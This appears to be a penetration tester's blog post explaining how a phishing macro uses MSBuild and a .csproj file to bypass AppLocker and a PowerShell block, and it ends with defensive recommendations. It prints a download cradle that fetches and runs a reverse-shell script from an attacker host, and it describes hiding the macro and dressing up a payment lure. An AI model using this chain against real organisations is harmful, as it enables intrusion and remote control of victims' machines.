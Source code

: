 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }

Now that the "malicious" document has been created we can test it out. Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode. This was not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. organisations should block their use unless explicitely required for certain users (e.g. developers). Organisations should also consider blocking macros for users who don't need this functionality, and consider implementing a custom whitelisting policy, mindful of the permissiveness of Default Rules. Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking. In addition to powershell.exe, organisations should also consider blocking the following PowerShell binaries and assemblies.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

Yet, even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace. For example, an attacker could download a custom binary to one of the writable and executable folders within Windows that is whitelisted by AppLocker Default Rules. On my computer, these are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

This attacker/defender back and forth continues ad infinitum. Therefore it is important for organisations to formalise an ongoing cycle of testing, remediation and review, in order to achieve stronger system security. Ultimately, an "assume breach" mentality is paramount, and to make it as hard as possible for an attacker to gain that initial foothold.
